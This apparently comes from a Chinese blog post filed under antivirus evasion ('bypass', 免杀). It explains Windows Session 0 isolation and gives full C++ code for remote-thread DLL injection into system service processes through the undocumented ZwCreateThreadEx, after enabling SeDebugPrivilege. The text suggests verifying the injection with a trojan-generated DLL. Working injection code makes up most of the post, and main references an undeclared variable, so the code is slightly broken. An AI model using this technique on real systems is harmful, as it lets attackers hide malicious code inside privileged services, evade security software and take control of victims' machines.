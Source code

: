 ```
layout: post
title: Ntdll调用
categories: bypass
description: bypass 之 规避杀软调用Ntdll.dll
keywords: Windows，Ntdll，免杀，bypass
```

突破SESSION 0隔离的注入

# 突破SESSION 0隔离的远线程注入

## 一、Session介绍

在Windows XP、Windows Server 2003，以及更老版本的Windows操作系统中，服务和应用程序使用相同的会话（Session）运行，而这个会话是由第一个登录到控制台的用户启动的。该会话就叫做Session 0。

在Windows Vista之前，Session 0不仅包含服务，也包含标准用户应用程序。

将服务和用户应用程序一起在Session 0中运行会导致安全风险，因为服务会使用提升后的权限运行，而用户应用程序使用用户特权（大部分都是非管理员用户）运行，这会使得恶意软件以某个服务为攻击目标，通过“劫持”该服务，达到提升自己权限级别的目的。

从Windows Vista开始，只有服务可以托管到Session 0中，用户应用程序和服务之间会被隔离，并需要运行在用户登录到系统时创建的后续会话中。例如第一个登录的用户创建 Session 1，第二个登录的用户创建Session 2，以此类推

## 二、实现原理

ZwCreateThreadEx函数可以突破SESSION 0 隔离，将DLL注入到SESSION 0 隔离的系统服务进程中。

CreateRemoteThread底层实际上也是通过ZwCreateThreadEx函数实现线程创建的。CreateRemoteThread注入系统进程会失败的原因是因为调用ZwCreateThreadEx创建远程线程时，第七个参数CreateThreadFlags为1。

使用CreateRemoteThread注入失败DLL失败的关键在第七个参数CreateThreadFlags， 他会导致线程创建完成后一直挂起无法恢复进程运行，导致注入失败。而想要注册成功，把该参数的值改为0即可。

由于在ntdll.dll中，ZwCreateThreadEx并没有被声明，因此需要使用GetProcAddress导出地址。

## 三、编码实现

```c++
#include "Windows.h"
#include <stdio.h>
 
BOOL ZwCreateThreadExInjectDLL(DWORD dwProcessId, const char* pszDllFileName) {
    HANDLE hProcess = NULL;
    SIZE_T dwSize = 0;
    LPVOID pDllAddr = NULL;
    FARPROC pFuncProcAddr = NULL;
    HANDLE hRemoteThread = NULL;
    DWORD dwStatus = 0;
 
    // 打开进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
    if (NULL == hProcess) {
        printf("Error OpenProcess:%d", GetLastError());
        return FALSE;
    }
 
    // 申请内存
    dwSize = 1 + ::lstrlen(pszDllFileName);
    pDllAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
    if (pDllAddr == NULL){
        printf("Error VirtualAllocEx:%d", GetLastError());
         return FALSE;
    }
 
    // 写入数据
    if (FALSE == WriteProcessMemory(hProcess, pDllAddr, pszDllFileName, dwSize, NULL)) {
        printf("Error WriteProcessMemory:%d", GetLastError());
        return FALSE;
    }
 
#ifdef _WIN64
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        ULONG CreateThreadFlags,
        SIZE_T ZeroBits,
        SIZE_T StackSize,
        SIZE_T MaximumStackSize,
        LPVOID pUnkown);
#else
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        BOOL CreateSuspended,
        DWORD dwStackSize,
        DWORD dw1,
        DWORD dw2,
        LPVOID pUnkown);
#endif
 
    // 加载ntdll.dll
    HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
    if (NULL == hNtdllDll) {
        printf("Error Load 'ntdll.dll':%d", GetLastError());
        return FALSE;
    }
 
    // 获取LoadLibraryA函数地址
    pFuncProcAddr = GetProcAddress(::GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (NULL == pFuncProcAddr) {
        printf("Error GetProcAddress 'LoadLibraryW':%d", GetLastError());
        return FALSE;
    }
 
    // 获取ZwCreateThreadEx函数地址
    typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
    if (NULL == ZwCreateThreadEx) {
        printf("Error GetProcAddress 'ZwCreateThreadEx':%d", GetLastError());
        return FALSE;
    }
 
    // 使用ZwCreateThreadEx创建远线程，实现DLL注入
    dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDllAddr, 0, 0, 0, 0, NULL);
    if (NULL == hRemoteThread) {
        printf("Error Inject DLL:%u", dwStatus);
        return FALSE;
    }
    CloseHandle(hProcess);
    FreeLibrary(hNtdllDll);
 
    return TRUE;
}
 
// OpenProcess打开高权限的进程需要提权
BOOL EnbalePrivileges(HANDLE hProcess, const char* pszPrivilegesName)
{
     HANDLE hToken = NULL;
     LUID luidValue = { 0 };
     TOKEN_PRIVILEGES tokenPrivileges = { 0 };
     BOOL bRet = FALSE;
     DWORD dwRet = 0;
     // 打开进程令牌并获取进程令牌句柄
     bRet = ::OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);
     if (FALSE == bRet)
     {
         printf("OpenProcessToken");
         return FALSE;
     }
     // 获取本地系统的 pszPrivilegesName 特权的LUID值
     bRet = ::LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);
     if (FALSE == bRet){
         printf("LookupPrivilegeValue");
         return FALSE;
     }
     // 设置提升权限信息
     tokenPrivileges.PrivilegeCount = 1;
     tokenPrivileges.Privileges[0].Luid = luidValue;
     tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
     // 提升进程令牌访问权限
     bRet = ::AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);
     if (FALSE == bRet){
         printf("AdjustTokenPrivileges");
         return FALSE;
     }
     else{
         // 根据错误码判断是否特权都设置成功
         dwRet = ::GetLastError();
         if (ERROR_SUCCESS == dwRet){
             printf("SUCCESS!!");
             return TRUE;
         }
         else if (ERROR_NOT_ALL_ASSIGNED == dwRet){
             printf("ERROR_NOT_ALL_ASSIGNED");
             return FALSE;
         }
     }
     return FALSE;
 }
 
 
int main() {
    // 提升当前进程令牌权限
    HANDLE hProcess = GetCurrentProcess();
    EnbalePrivileges(hProcess, SE_DEBUG_NAME);
 	// 远线程注入 DLL
#ifndef _WIN64
    const char* dllPath = "E:\\Dll1.dll";
    ZwCreateThreadExInjectDLL(2940, dllPath);
#else    
    const char* dllPath = "E:\\Dll1.dll";
    ZwCreateThreadExInjectDLL(2940, dllPath);
#endif
	if (FALSE == bRet)
	{
		printf("Inject Dll Error.\n");
	}
	printf("Inject Dll OK.\n");
    return 0;
}
```

在这里无法通过MessageBox判断是否注入成功。由于会话隔离，在系统程序中不能显示程序窗体，也不能用常规方式来建立用户进程。所以这里最好使用马生成的dll来判断DLL是否注入成功。

## 四、步骤总结

①打开注入进程，获取进程句柄
		②在注入的进程申请内存地址
		③写入内存地址
		④加载ntdll，获取LoadLibraryA函数地址
		⑤获取ZwCreateThreadEx函数地址
		⑥使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入

## 五、注意事项

①需要使用管理员权限

②由于会话隔离，在系统服务程序里不能显示程序窗体，也不能用常规方式创建用户进程，进程注入dll使用MessageBox，会无法显示

③ZwCreateThreadEx函数在32位和64位系统下，其函数声明中的参数是有区别的，一定要区分开